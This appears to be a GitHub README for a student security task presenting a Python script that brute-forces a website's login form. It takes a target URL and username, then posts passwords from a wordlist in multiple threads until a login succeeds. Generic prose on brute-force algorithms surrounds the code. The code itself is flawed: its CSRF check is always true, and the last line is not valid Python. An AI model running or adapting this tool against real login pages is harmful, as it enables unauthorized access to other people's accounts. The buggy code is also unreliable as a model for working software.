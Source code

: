 <p align="center">

# TASK 2 : CREATE A BASIC TOOL FOR THE BRUTE FORCING USERNAMES AND PASSWORDS IN PYTHON  <hr>
# SUBMITTED BY SUPRAJA S

</p>
<p align="center">
<img src="brute-force-attack.webp">
</p>

# BRUTE FORCE PROCESS 
<p>
 Brute forcing is relying on or achieved through the application of force, effort, or power in usually large amounts instead of more efficient, carefully planned, or precisely directed methods.
</p>

# FEATURES OF BRUTE FORCING 

User Input: The script takes input from the user for the target URL, target username, and the error message displayed when an incorrect password is entered.

BruteForce Cracker Class: It encapsulates the functionality related to the brute-force attack. The crack method attempts to log in with a given password and checks the response for an error message.

crack_passwords Function: It iterates through a list of passwords, attempting to crack the password using the BruteForceCracker instance. Multithreading is used to speed up the process.

Main Function: It initializes the brute-force cracker, reads passwords from a file ("passwords.txt"), and starts multiple threads to perform the password cracking concurrently.

Banner: The script displays a "CHECKING SERVER!!!" banner when executed.

Threading: The script uses the threading module to perform password cracking concurrently, improving efficiency.

Error Handling: The script checks for CSRF tokens in the response and exits if detected, preventing the brute force attack if the target website employs CSRF protection.

Printing: Various print statements are used for displaying information about th e cracking process, including the target URL, username, password attempts, and successful password discovery

# ADVANTAGES OF BRUTE FORCING 

The following are the advantages of the brute-force algorithm:

-This algorithm finds all the possible solutions, and it also guarantees that it finds the correct solution to a problem.

-This type of algorithm is applicable to a wide range of domains.

-It is mainly used for solving simpler and small problems.

-It can be considered a comparison benchmark to solve a simple problem and does not require any particular domain knowledge.

# DISADVANTAGES OF BRUTE FORCING

The following are the disadvantages of the brute-force algorithm:

-It is an inefficient algorithm as it requires solving each and every state.

-It is a very slow algorithm to find the correct solution as it solves each state without considering whether the solution is feasible or 
  not.
  
-The brute force algorithm is neither constructive nor creative as compared to other algorithms.

<p align="center">
<img src="image1-499.png">
</p>

# PYTHON CODE :
```print (""" BRUTE FORCE""")
import threading
import requests
import time
import sys

class BruteForceCracker:
    def __init__(self, url, username, error_message):
        self.url = url
        self.username = username
        self.error_message = error_message
        
        for run in banner:
            sys.stdout.write(run)
            sys.stdout.flush()
            time.sleep(0.02)

    def crack(self, password):
        data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
        response = requests.post(self.url, data=data_dict)
        if self.error_message in str(response.content):
            return False
        elif "CSRF" or "csrf" in str(response.content):
            print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
            sys.exit()
        else:
            print("Username: ---> " + self.username)
            print("Password: ---> " + password)
            return True

def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return

def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForceCracker(url, username, error)
    
    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()

if __name__ == '__main__':
    banner = """CHECKING SERVER!!!"""  print(banner)
    main()
```






























